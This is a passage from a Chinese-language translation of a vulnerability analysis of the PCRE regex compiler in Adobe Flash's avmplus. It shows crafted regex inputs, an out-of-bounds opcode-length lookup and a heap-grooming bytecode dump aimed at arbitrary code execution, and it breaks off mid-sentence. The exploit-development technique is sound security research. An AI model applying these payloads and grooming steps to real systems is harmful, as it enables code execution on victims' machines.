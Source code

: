 很明显这里有东西出错了，但是问题是如何才能让这个无效的字节码变成任意代码执行。很不幸，如果我们就拿这个无效的字节码来比较的话，结果就是匹配失败，然后退出匹配的过程，不会有什么其他的动作。

但是还有希望，pcre_compile.cpp提供了一些附加选项，我使用的是find_brackets，它会从当前的字节码迭代到末尾，而且有一个相对宽松的default case（译注：switch的case default:块），这个case会定位（并填充一个偏移量到）一个有序组，所以也许使用这个会导致一些奇怪的内存损坏或者让PCRE字节码有区别于一般字节码执行起来。

所以我们看看这个例子，添加一个回溯引用：

```
\c?0?4+(?1)

```

我们可以看到这一行（https://github.com/adobe-flash/avmplus/blob/master/pcre/pcre_compile.cpp#L1635），'c'被设定成无效的操作码：0x80：

```
/* Add in the fixed length from the table */
code += _pcre_OP_lengths[c][/c];

```

现在，_pcre_OP_lengths是一个全局数组了，0x80这个偏移稍稍跨过了数组的末尾。这个倒是很方便，因为这个定位到了一组将被用来国际化的字符串数组前面（在Windows和Linux上都是这样）。在每个Flash版本中，我们获得到的偏移都是110（明显比有效的操作码的长度要长），所以如果我们能修改一下堆，那么我们就可以将代码的指针从分配的字节码缓存中移动到我们控制的数据中。我们只需要重新操作一下，让find_bracket将字节码匹配到我们所需的那段缓存中，然后我们就可以寄希望于它，让它来帮助我们执行恶意代码了。

我们遇到了一个小小的问题：字节码的匹配器在遇到无效字节码的时候会退出匹配过程。解决方案是：可以用括号把它们包起来，让他们成为一个可选组：

```
(\c?0?4+)?(?2)

```

通过为组2合理的安排缓存，我们可以成功地将编译器编译成：

```
LEGITIMATE HEAP BUFFER
0000 5d001b      93 BRA              [27]
0003 66         102 BRAZERO          
0004 5e000b0001  94 CBRA             [11, 1]
0009 1bc290      27 CHAR             ['\xc2\x90']
000c 201b        32 PLUS             ['\x1b']
000e 80         128 INVALID          
000f 54000b      84 KET              [11]
0012 5c0006      92 ONCE             [6]
0015 510083      81 RECURSE          [131]    <---- this 131 is the bytecode index to recurse to (131 == 0x83, at the start of our groomed heap buffer)
0018 540006      84 KET              [6]
001b 54001b      84 KET              [27]
001e 00           0 END              
…
GROOMED HEAP BUFFER
0083 5e00880002  94 CBRA             [136, 2]
0088 540088      84 KET              [136]

```

当我们执行这段正则表达式的时候，看起来事事顺利，因为我们需要执行的路径是：
